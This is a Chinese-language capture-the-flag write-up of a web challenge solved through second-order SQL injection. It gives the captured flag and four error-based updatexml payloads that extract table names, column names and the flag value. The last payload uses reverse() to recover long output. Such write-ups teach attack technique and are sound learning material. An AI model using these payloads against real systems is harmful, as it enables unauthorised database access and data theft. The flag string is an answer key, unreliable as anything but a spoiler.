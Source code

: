 ```yaml
---
Author: Coder-LYQ
Date: 2021-1-5
---
```


## flag
`flag{fff9faec-e377-4f1d-84e3-66a4cb97ba28}`
## 思路

1. 打开网页，显示可以注册和登录。

   注册是一个写入数据库的过程，登录是查询数据库的过程，所以可以大致推测本题可能存在二次注入。

<img src="images/image-20210106212214557.png" alt="image-20210106212214557" style="zoom:50%;" />

2. 首先测试注册过程是否存在waf，输入如下，会弹出invalid string。

   <img src="images/image-20210106212522917.png" alt="image-20210106212522917" style="zoom:50%;" />

3. 使用bp测试被过滤的字符串，如下：

   <img src="images/image-20210106213526181.png" alt="image-20210106213526181" width="40%;" />

4. username `test\`   然后进入修改密码的页面，可以看到下面的报错提示。

   可以推测后台的sql语句可能为：

   `select * from users where username="" and pwd=""`

   闭合符号为"

<img src="images/image-20210106213702251.png" alt="image-20210106213702251" style="zoom:50%;" />

5. 页面显示了报错信息，说明我们可以尝试报错注入。

   - 获取数据表信息：

     `username=peri0d"||(updatexml(1,concat(0x3a,(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database()))),1))#`

   - 获取列名信息：

     `username=peri0d"||(updatexml(1,concat(0x3a,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users'))),1))#`

   - 获取flag:

     `username=peri0d"||(updatexml(1,concat(0x3a,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f'))),1))#`

     `username=peri0d"||(updatexml(1,concat(0x3a,reverse((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f')))),1))#`

## 总结

   - 本题的核心是SQL二次注入，是学习SQL二次注入的比较好的例子。
   - 报错型注入
   - 当flag很长时需要两次获取，reverse函数的使用
   - 待完善。。。